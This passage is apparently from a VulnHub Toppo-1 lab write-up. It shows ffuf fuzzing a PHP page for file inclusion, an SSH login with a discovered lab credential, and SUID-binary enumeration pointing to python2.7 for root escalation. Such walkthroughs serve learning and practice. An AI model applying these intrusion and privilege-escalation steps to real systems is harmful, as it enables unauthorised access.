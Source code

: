 	┌───(root💀kali)-[~/vulnHub/Toppo-1]
	└─# ffuf -u http://192.168.110.6/mail/contact_me.php?W2:W1 -w /usr/share/wordlists/LFI/file_inclusion_linux.txt:W1 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:W2  -fw 3

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.6/mail/contact_me.php?W2:W1
	 :: Wordlist         : W1: /usr/share/wordlists/LFI/file_inclusion_linux.txt
	 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 3
	________________________________________________

	:: Progress: [3103145/5820412] :: Job [1/1] :: 3972 req/sec :: Duration: [0:12:20] :: Errors: 0 
	```
	- Not susceptible to LFI
3. At this point, I think TCP/80 is a rabbit hole

## TCP/22 - SSH 
1. SSH with ted:12345ted123
	![](Pasted%20image%2020220129020027.png)

# Privilege Escalation
## Root - Via SUID Binary (GTFO BIN)
1. Enumerate SUID Binaries
	```
	ted@Toppo:~$ find / -perm -4000 2>/dev/null 
	/sbin/mount.nfs
	/usr/sbin/exim4
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/openssh/ssh-keysign
	/usr/bin/gpasswd
	/usr/bin/newgrp
	/usr/bin/python2.7
	/usr/bin/chsh
	/usr/bin/at
	/usr/bin/mawk
	/usr/bin/chfn
	/usr/bin/procmail
	/usr/bin/passwd
	/bin/su
	/bin/umount
	/bin/mount
	```
	- `python2.7` has a [GTFOBins](https://gtfobins.github.io/gtfobins/python/) entry